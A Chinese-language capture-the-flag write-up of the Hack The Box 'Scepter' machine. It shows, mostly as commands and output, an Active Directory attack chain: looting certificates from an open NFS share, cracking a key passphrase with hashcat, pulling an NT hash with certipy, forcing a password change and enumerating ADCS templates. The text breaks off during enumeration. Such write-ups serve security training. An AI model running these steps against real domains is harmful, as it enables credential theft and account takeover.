






## 靶机总结

使用了两次esc14，很有意思，本文技术补充以添加至血缇之书

配置如下
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ cat start.sh 
ip=10.129.103.0
FQDN=DC01.scepter.htb
domain=scepter.htb

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ cat krb5.conf 

[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = SCEPTER.HTB

[realms]
    SCEPTER.HTB = {
        kdc = dc01.scepter.htb
        admin_server = dc01.scepter.htb
        default_domain = scepter.htb
    }

[domain_realm]
    .scepter.htb = SCEPTER.HTB
    scepter.htb = SCEPTER.HTB

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ cat hostname 
10.129.103.0     DC01.scepter.htb scepter.htb DC01


```
## 入口
并未存在smb和rpc匿名，进行端口扫描
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ rustscan -a $ip
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/wackymaker/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.103.0:53
Open 10.129.103.0:88
Open 10.129.103.0:111
Open 10.129.103.0:135
Open 10.129.103.0:139
Open 10.129.103.0:389
Open 10.129.103.0:445
Open 10.129.103.0:464
Open 10.129.103.0:593
Open 10.129.103.0:636
Open 10.129.103.0:2049
Open 10.129.103.0:3268
Open 10.129.103.0:3269
Open 10.129.103.0:5986
Open 10.129.103.0:5985
Open 10.129.103.0:9389
Open 10.129.103.0:47001
Open 10.129.103.0:49664
Open 10.129.103.0:49667
Open 10.129.103.0:49665
Open 10.129.103.0:49666
Open 10.129.103.0:49671
Open 10.129.103.0:49688
Open 10.129.103.0:49693
Open 10.129.103.0:49689
Open 10.129.103.0:49692
Open 10.129.103.0:49706
Open 10.129.103.0:49720
Open 10.129.103.0:49736
Open 10.129.103.0:49754
[~] Starting Script(s)
```
开放nfs端口，查看是否存在未授权
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ showmount -e $ip
Export list for 10.129.103.0:
/helpdesk (everyone)
```
挂载后，发现是4个用户的证书
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ sudo mount -t nfs $ip:/helpdesk ./test

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ cd test/
-bash: cd: test/: Permission denied

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ su root
Password: 
┌──(root㉿kali)-[/home/wackymaker/tmp/hackthebox/scepter]
└─# cd test                         
                                                                                                                                                     
┌──(root㉿kali)-[/home/…/tmp/hackthebox/scepter/test]
└─# dir
baker.crt  baker.key  clark.pfx  lewis.pfx  scott.pfx
                                                        
```
抓取到本地，修正权限
```zsh
┌──(root㉿kali)-[/home/…/tmp/hackthebox/scepter/test]
└─# cp * ../                                                                    
                                                                                                                                                     
┌──(root㉿kali)-[/home/…/tmp/hackthebox/scepter/test]
└─# cd ../ 
                                                                                                                                                     
┌──(root㉿kali)-[/home/wackymaker/tmp/hackthebox/scepter]
└─# su wackymaker                                                           
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ chmod 777 *
chmod: changing permissions of 'baker.crt': Operation not permitted
chmod: changing permissions of 'baker.key': Operation not permitted
chmod: changing permissions of 'clark.pfx': Operation not permitted
chmod: changing permissions of 'lewis.pfx': Operation not permitted
chmod: changing permissions of 'scott.pfx': Operation not permitted
chmod: changing permissions of 'test': Permission denied

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ sudo chmod 777 *
chmod: changing permissions of 'test': Permission denied

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ dir
baker.crt  baker.key  clark.pfx  hostname  krb5.conf  lewis.pfx  scott.pfx  start.sh  test

```
只有baker提供了key文件，所以先爆破他
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ cat baker.hash 
$PEM$1$4$d7b39fa5d2d1d06153a95e1d2a80de86$2048$472edaace794795742a020c4e126cdd4$1232$1e3ebe95baabe7041737c3aac5ee7b879bee03c8a121c22d7bf8290d1367233bcb0ef990de04ab244e75774138561cf1712607e379b75fae0643c9a41123aea0a879261c17e7ebd61ef6ca335f24a267e95f830785ed09c1b968f0385cde3d814ae851a18a46f6627049d013605c319589d6179e3df5b0c71a43e738f911d3c0bf151c96d50849ab230634b9c9f48c655b2498f859bfd1140ecaee214b4bbcece2e88255bd3888437eeeabcf441d0d622cfb5750c6bc046ba38174bfaadfc3522ba1f6701a290984edc86c3f3a4ce5e7e2eb9f8d756b61dda53f098d78a74cd64cb67f61c30e9432aa8c518cd71bacdf050fef4a8bad216d3f5a48396f80552bfc16fc4161eaf701956564d02757cfc91272c5b1eca178e32a8a4cdfda5867ef631d83596d7b706cd4b0ebc0996d4e5e0bb6601615023b3abdb5d8cc9caacd328896c48a9a73fec336a8c6002c4ff42d1001e9a4c0c85b48c40e9603711bd18b9fff123a5d6f3dd7113bc45c58f5384a56570593c5948cb62123091254fdbb6246c5e8075a759af1c40354723be5d7f77c97e5645b15407ee6df6df17ad50ac52dd497c535d55a982e018730089c582eb7be0d88843bbdb7b73a536cb1ed195ad7f0a1fe26cdbe14d5eedd09f7c3d08a0a5cbc5986ccdd09abdef1e35a1d88ba37bc0ee4072d369e47850161b6881349ef7d3479c4e35cd11d371e8ec16c5104bf9a9cee6d45e3686913b79b8f4495eec39fa3731a593af5ca6faa8374951209afce7787c6826406b5a281aff5c8722420fcaf7a0815076b2a7a59c05c030b5365e51024cfd5fea85e1ed8a9b098ee2737818b7e488ada5a7db95caca3129ad20a13def66f97c35f435d9c3092acd65e4d73580b804ddbeb7887540fd617965368dfccd2c0703a03f9a52ba56fc90841b033339ee8c4c273f87734260e70fbdc7372f6d305ceb583a3a7a8330dda76265896fa7e905319bb7c9a3f014b46192927ce267755b31c7ea0b8bdb3f2f3c7767c7b7d4169883a68e9329c1939ba2d03cacca60e35171b1742af66a99cb4f2da6917a4f40ddc1803cb2889ce126cca5402eb80cfd5894702ad1f0946a0936d06b2dfad52ac5273bf1466690ce63221108132533223abb62cf2d5911209c7eb5a8d0864ce17d399dc7a09052679a254db02fdd9f6358ea4de45c9b64fbd13547299936b2971a1a9955711816745033e762473427d58c27c9e9d45b54fc5b482daf1cdfd825af0b71003444680ac68875b110bfdc71c5433c2d27fc67a7f764e18b27b6b50e82bf3f99c8d8a9087b5aa4731c5606fd5136229cb75d3ea238d8b6de08220163fd2957b471170f4b08cde05cd01fe7d7deb7f5c7c61c408f54ae272ac48d8833743d74391984ccf8ca34ad3b65c6a4ea39a1d022393c926fdb5f96f2993a0817299135128ee51e95987cab7b6da42550415bd91b2503426306d27c7dd26a7475b5fbcde8f10378009b58a8d0c1e9d1dac4c9b01bb2f55a708ca1f6c60f194af9b76c82bdc16a95edd27ebe25703a892ee2f09c184e50e9e546174d3f3b7d419e8cd057842b09383649190c558f197924c86668b6ef14d5b46030197bc5a75fb2ec629ed7f9a8db73784e488214d493ae7eb19643156f92815d5dc4411bd2f5e54c2cae97f3af6080e49de444c071b994278c9f74c964f02855148f7a73086d96cab68d267e388e8dec149ce8521c9429461f9f694cb67c0ebf0fff0
```
hashcat的24420模式与他类似，需要将$PEM$1改为$PEM$2进行爆破
```zsh
hashcat baker.hash rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

24420 | PKCS#8 Private Keys (PBKDF2-HMAC-SHA256 + 3DES/AES) | Private Key
...[snip]...
$PEM$2$4$d7b39fa5d2d1d06153a95e1d2a80de86$2048$472edaace794795742a020c4e126cdd4$1232$1e3ebe95baabe7041737c3aac5ee7b879bee03c8a121c22d7bf8290d1367233bcb0ef990de04ab244e75774138561cf1712607e379b75fae0643c9a41123aea0a879261c17e7ebd61ef6ca335f24a267e95f830785ed09c1b968f0385cde3d814ae851a18a46f6627049d013605c319589d6179e3df5b0c71a43e738f911d3c0bf151c96d50849ab230634b9c9f48c655b2498f859bfd1140ecaee214b4bbcece2e88255bd3888437eeeabcf441d0d622cfb5750c6bc046ba38174bfaadfc3522ba1f6701a290984edc86c3f3a4ce5e7e2eb9f8d756b61dda53f098d78a74cd64cb67f61c30e9432aa8c518cd71bacdf050fef4a8bad216d3f5a48396f80552bfc16fc4161eaf701956564d02757cfc91272c5b1eca178e32a8a4cdfda5867ef631d83596d7b706cd4b0ebc0996d4e5e0bb6601615023b3abdb5d8cc9caacd328896c48a9a73fec336a8c6002c4ff42d1001e9a4c0c85b48c40e9603711bd18b9fff123a5d6f3dd7113bc45c58f5384a56570593c5948cb62123091254fdbb6246c5e8075a759af1c40354723be5d7f77c97e5645b15407ee6df6df17ad50ac52dd497c535d55a982e018730089c582eb7be0d88843bbdb7b73a536cb1ed195ad7f0a1fe26cdbe14d5eedd09f7c3d08a0a5cbc5986ccdd09abdef1e35a1d88ba37bc0ee4072d369e47850161b6881349ef7d3479c4e35cd11d371e8ec16c5104bf9a9cee6d45e3686913b79b8f4495eec39fa3731a593af5ca6faa8374951209afce7787c6826406b5a281aff5c8722420fcaf7a0815076b2a7a59c05c030b5365e51024cfd5fea85e1ed8a9b098ee2737818b7e488ada5a7db95caca3129ad20a13def66f97c35f435d9c3092acd65e4d73580b804ddbeb7887540fd617965368dfccd2c0703a03f9a52ba56fc90841b033339ee8c4c273f87734260e70fbdc7372f6d305ceb583a3a7a8330dda76265896fa7e905319bb7c9a3f014b46192927ce267755b31c7ea0b8bdb3f2f3c7767c7b7d4169883a68e9329c1939ba2d03cacca60e35171b1742af66a99cb4f2da6917a4f40ddc1803cb2889ce126cca5402eb80cfd5894702ad1f0946a0936d06b2dfad52ac5273bf1466690ce63221108132533223abb62cf2d5911209c7eb5a8d0864ce17d399dc7a09052679a254db02fdd9f6358ea4de45c9b64fbd13547299936b2971a1a9955711816745033e762473427d58c27c9e9d45b54fc5b482daf1cdfd825af0b71003444680ac68875b110bfdc71c5433c2d27fc67a7f764e18b27b6b50e82bf3f99c8d8a9087b5aa4731c5606fd5136229cb75d3ea238d8b6de08220163fd2957b471170f4b08cde05cd01fe7d7deb7f5c7c61c408f54ae272ac48d8833743d74391984ccf8ca34ad3b65c6a4ea39a1d022393c926fdb5f96f2993a0817299135128ee51e95987cab7b6da42550415bd91b2503426306d27c7dd26a7475b5fbcde8f10378009b58a8d0c1e9d1dac4c9b01bb2f55a708ca1f6c60f194af9b76c82bdc16a95edd27ebe25703a892ee2f09c184e50e9e546174d3f3b7d419e8cd057842b09383649190c558f197924c86668b6ef14d5b46030197bc5a75fb2ec629ed7f9a8db73784e488214d493ae7eb19643156f92815d5dc4411bd2f5e54c2cae97f3af6080e49de444c071b994278c9f74c964f02855148f7a73086d96cab68d267e388e8dec149ce8521c9429461f9f694cb67c0ebf0fff0:newpassword
...[snip]...
```
得到密码newpassword

用这个密码为baker创建证书，可以正常请求hash（其他证书我试过了，并不可以请求）
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ openssl pkcs12 -export -inkey baker.key -in baker.crt -out baker.pfx
Enter pass phrase for baker.key:
Enter Export Password:
Verifying - Enter Export Password:

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ dir
baker.crt  baker.hash  baker.key  baker.pfx  clark.pfx	hostname  krb5.conf  lewis.pfx	scott.pfx  start.sh  test

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ certipy auth -pfx baker.pfx -dc-ip $ip
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'd.baker@scepter.htb'
[*]     Security Extension SID: 'S-1-5-21-74879546-916818434-740295365-1106'
[*] Using principal: 'd.baker@scepter.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'd.baker.ccache'
[*] Wrote credential cache to 'd.baker.ccache'
[*] Trying to retrieve NT hash for 'd.baker'
[*] Got hash for 'd.baker@scepter.htb': aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce
```
得到新用户
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ echo user=d.baker>>start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ echo hash=18b5fb0d99e7a475316213c15b6f22ce>>start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ . start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ nxc winrm $ip -u $user -H $hash
WINRM       10.129.103.0    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:scepter.htb) 
WINRM       10.129.103.0    5985   DC01             [-] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ nxc smb $ip -u $user -H $hash
SMB         10.129.103.0    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domin:scepter.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.103.0    445    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
```
没有winrm权限，抓猎犬
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ bloodhound-python -d $domain -c ALL -u $user --hashes :$hash -ns $ip --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: scepter.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: unpack requires a buffer of 4 bytes
INFO: Connecting to LDAP server: dc01.scepter.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.scepter.htb
INFO: Found 11 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.scepter.htb
INFO: Done in 00M 19S
INFO: Compressing output into 20250901151445_bloodhound.zip
```



出站能改密码，但这个用户也不在远程管理组，改之前顺着用户往下看



此用户能完全掌控员工出入证这个ou，而这个ou里，或者说这个证书允许注册的用户是



这个用户的出站没有什么意义



## ESC14
改密码后用A.CARTER查询易受攻击的证书
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ nxc smb $ip -u $user -H $hash -M change-password -o USER=A.CARTER  NEWPASS='wackyMAKER1!'
/home/wackymaker/.local/share/pipx/venvs/netexec/lib/python3.13/site-packages/masky/lib/smb.py:6: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  from pkg_resources import resource_filename
SMB         10.129.103.0    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domin:scepter.htb) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.129.103.0    445    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
CHANGE-P... 10.129.103.0    445    DC01             [+] Successfully changed password for A.CARTER

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ echo user1=A.CARTER>>start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ echo pass1='wackyMAKER1!'>>start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ . start.sh 

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ certipy find -u $user1 -p $pass1 -target $FQDN -dc-ip $ip -text -stdout -vulnerable
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Finding issuance policies
[*] Found 20 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'scepter-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'scepter-DC01-CA'
[*] Checking web enrollment for CA 'scepter-DC01-CA' @ 'dc01.scepter.htb'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : scepter-DC01-CA
    DNS Name                            : dc01.scepter.htb
    Certificate Subject                 : CN=scepter-DC01-CA, DC=scepter, DC=htb
    Certificate Serial Number           : 716BFFE1BE1CD1A24010F3AD0E350340
    Certificate Validity Start          : 2024-10-31 22:24:19+00:00
    Certificate Validity End            : 2061-10-31 22:34:19+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SCEPTER.HTB\Administrators
      Access Rights
        ManageCa                        : SCEPTER.HTB\Administrators
                                          SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Enterprise Admins
        ManageCertificates              : SCEPTER.HTB\Administrators
                                          SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Enterprise Admins
        Enroll                          : SCEPTER.HTB\Authenticated Users
Certificate Templates                   : [!] Could not find any certificate templates

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ certipy find -u $user1 -p $pass1 -target $FQDN -dc-ip $ip -text -stdout -vulnera^Ce

┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ certipy find -vulnerable -u $user -hashes :$hash -dc-ip $ip -stdout
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Finding issuance policies
[*] Found 20 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'scepter-DC01-CA' via RRP
[*] Successfully retrieved CA configuration for 'scepter-DC01-CA'
[*] Checking web enrollment for CA 'scepter-DC01-CA' @ 'dc01.scepter.htb'
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: [Errno 111] Connection refused
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : scepter-DC01-CA
    DNS Name                            : dc01.scepter.htb
    Certificate Subject                 : CN=scepter-DC01-CA, DC=scepter, DC=htb
    Certificate Serial Number           : 716BFFE1BE1CD1A24010F3AD0E350340
    Certificate Validity Start          : 2024-10-31 22:24:19+00:00
    Certificate Validity End            : 2061-10-31 22:34:19+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SCEPTER.HTB\Administrators
      Access Rights
        ManageCa                        : SCEPTER.HTB\Administrators
                                          SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Enterprise Admins
        ManageCertificates              : SCEPTER.HTB\Administrators
                                          SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Enterprise Admins
        Enroll                          : SCEPTER.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : StaffAccessCertificate
    Display Name                        : StaffAccessCertificate
    Certificate Authorities             : scepter-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireEmail
                                          SubjectRequireDnsAsCn
                                          SubjectRequireEmail
    Enrollment Flag                     : AutoEnrollment
                                          NoSecurityExtension
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 99 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-01T02:29:00+00:00
    Template Last Modified              : 2024-11-01T09:00:54+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SCEPTER.HTB\staff
      Object Control Permissions
        Owner                           : SCEPTER.HTB\Enterprise Admins
        Full Control Principals         : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
        Write Owner Principals          : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
        Write Dacl Principals           : SCEPTER.HTB\Domain Admins
                                          SCEPTER.HTB\Local System
                                          SCEPTER.HTB\Enterprise Admins
    [+] User Enrollable Principals      : SCEPTER.HTB\staff
    [!] Vulnerabilities
      ESC9                              : Template has no security extension.
    [*] Remarks
      ESC9                              : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
```
发现以d.baker的身份找到了ou同名证书，可以以esc9攻击，但是我尝试后发现并不可以

只能一点一点查看用户权限
```zsh
┌──(wackymaker㉿kali)-[~/tmp/hackthebox/scepter]
└─$ powerview $domain/$user1:$pass1@$ip
/home/wackymaker/.local/share/pipx/venvs/powerview/lib/python3.13/site-packages/impacket/examples/ntlmrelayx/attacks/__init__.py:20: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Logging directory is set to /home/wackymaker/.powerview/logs/scepter-a.carter-10.129.103.0
╭─LDAPS─[dc01.scepter.htb]─[SCEPTER\a.carter]-[NS:10.129.103.0]
╰─PV ❯ Get-DomainUser -Identity h.brown -Properties *
objectClass                       : top
                                    person
                                    organizationalPerson
                                    user
cn                                : h.brown
givenName                         : h.brown
distinguishedName                 : CN=h.brown,CN=Users,DC=scepter,DC=htb
instanceType                      : 4
whenCreated                       : 31/10/2024 22:40:01 (10 months, 0 day ago)
whenChanged                       : 07/03/2025 22:19:11 (5 months, 24 days ago)
displayName                       : h.brown
uSNCreated                        : 16443
memberOf                          : CN=CMS,CN=Users,DC=scepter,DC=htb
                                    CN=Helpdesk Admins,CN=Users,DC=scepter,DC=htb
                                    CN=Protected Users,CN=Users,DC=scepter,DC=htb
                                    CN=Remote Management Users,CN=Builtin,DC=scepter,DC=htb
uSNChanged                        : 106593
name                              : h.brown
objectGUID                        : {b4dc0e39-0e8a-4d7c-b0ab-b55ada0f817d}
userAccountControl                : NORMAL_ACCOUNT
                                    DONT_EXPIRE_PASSWORD
badPwdCount                       : 0
codePage                          : 0
countryCode                       : 0
